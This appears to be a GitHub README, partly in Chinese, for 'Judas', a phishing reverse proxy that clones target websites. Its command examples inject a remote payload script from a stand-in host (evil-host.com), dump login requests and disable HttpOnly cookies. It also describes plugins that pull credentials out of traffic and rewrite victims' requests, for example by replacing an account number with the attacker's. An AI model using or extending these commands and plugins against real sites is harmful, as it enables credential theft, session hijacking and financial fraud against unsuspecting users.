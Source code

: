 Judas
=====
Judas 是一个可扩展化的钓鱼代理.
通过快速克隆任意网站。在任意网站中植入钓鱼 js 进行钓鱼。本项目克隆自 [JonCooperWorks/judas](https://github.com/JonCooperWorks/judas)。并对其进行稍微修改

```
  -address string
        Address and port to run proxy service on. Format address:port. (default "localhost:8080")
  -cookie-domain string
        set Cookies Domain
  -dump-url string
        dump request URL * is no dump (default "*")
  -inject-js string
        URL to a JavaScript file you want injected.
  -inject-url string
        target URL to a JavaScript file you want injected. default * is all ',' split (default "*")
  -insecure
        Listen without TLS.
  -insecure-target
        Not verify SSL certificate from target host.
  -plugins string
        Colon separated file path to plugin binaries.
  -proxy string
        Optional upstream proxy. Useful for torification or debugging. Supports HTTPS and SOCKS5 based on the URL. For example, http://localhost:8080 or socks5://localhost:9150.
  -proxy-ca-cert string
        Proxy CA cert for signed requests
  -proxy-ca-key string
        Proxy CA key for signed requests
  -ssl-hostname string
        Hostname for SSL certificate
  -target string
        The website we want to phish.
  -v    show version
  -with-profiler
        Attach profiler to instance.

```

Building
--------
To build `judas`, simply run `go build`.
 ```shell
 make build
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website, simply pass the `--ssl-hostname` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com
```

If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --insecure
```

If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.
This is useful for passing it through an intercepting proxy like Burp Suite for debugging purposes.

Example:
```
./judas \
    --target https://target-url-with-self-signed-cert.com \
    --proxy http://localhost:8080 \
    --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.
Judas supports SOCKS5 and HTTP proxies.
HTTP proxies must being with `http://` and socks5 proxies must begin with `socks5://`

Example:
```
./judas \
    --target https://torwebsite.onion \
    --ssl-hostname phishingsite.com \
    --proxy socks5://localhost:9150
```

修改侦听地址

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --address=0.0.0.0:8080
```

注入js默认是注入所有的js

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --inject-js https://evil-host.com/payload.js
```
## 注入特定的 url
```shell
judas --target  https://target-url.com             \
     --insecure --address=10.10.200.1:8080         \
     --inject-js= https://evil-host.com/payload.js \
     --inject-url="/index.php/Index/index"
```



### dump 下来原始请求

```shell
judas --target  https://target-url.com              \
     --insecure --address=10.10.200.1:8080          \
     --inject-js= https://evil-host.com/payload.js  \
     --inject-url="/index.php/Index/index"          \
     --dump-url="/index.php/Public/checkLogin"
```



**注意** --`dump-url` `--inject-url` 多个参数用英文`,` 隔开不可有空格

### 取消 httponly 设置
```shell
judas --target  https://target-url.com              \
     --insecure --address=10.10.200.1:8080          \
     --inject-js= https://evil-host.com/payload.js  \
     --inject-url="/index.php/Index/index"          \
     --dump-url="/index.php/Public/checkLogin"      \
     --cookie-httponly=false

```

插件功能
-------

Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.
Plugins run in their own goroutine and judas will recover from panics, so you don't need to worry too much about what you do in the plugins.
You should configure your plugins using [environment variables](https://golang.org/pkg/os/#Getenv).

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Listener with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Listener, error)
```

The `judas.Listener` interface has one method: `Listen`.

```
// Listener implementations will be given a stream of HTTPExchanges to let plugins capture valuable information out of request-response transactions.
type Listener interface {
	Listen(<-chan *HTTPExchange)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Listeners can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

Plugins can also modify requests after they come from the victim and responses after they're returned from the server.
This is useful when you want to modify a request on the fly, like replacing an account number with yours.
To take advantage of this, simply create a custom `RequestTransformer` or `ResponseTransformer`.

```
// RequestTransformer modifies a request before it is sent to the target website.
// This can be used to hijack victim actions, like replacing an account number with ours.
// Delays in this function will slow down the phishing site for the victim.
// Your RequestTransformer should be a function called "RequestTransformer"
type RequestTransformer func(*http.Request) error

// ResponseTransformer modifies a response before it is returned to the victim.
// You can use ResponseTransformers to hide any visible results of a RequestTransformer.
// Delays in this function will slow down the phishing site for the victim.
// Your ResponseTransformer should be a function called "ResponseTransformer"
type ResponseTransformer func(*http.Response) error
```

You only have to implement the methods you're using.
You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

Example:
```
judas \
     --target https://www.target.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target \
     --plugins ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin examples/searchloggingplugin/searchloggingplugin.go
```

### 修复一些bug
* Location 跳转 和目标域名不同域名跳转不变。相同跳转到代理地址   
* 可选注入到特定 URL 中不区分大小写 
*  解决 cookie 跨域导致无法登录   

### 注意
1. 使用域名或者特定的IP 不要使 0.0.0.0 这类

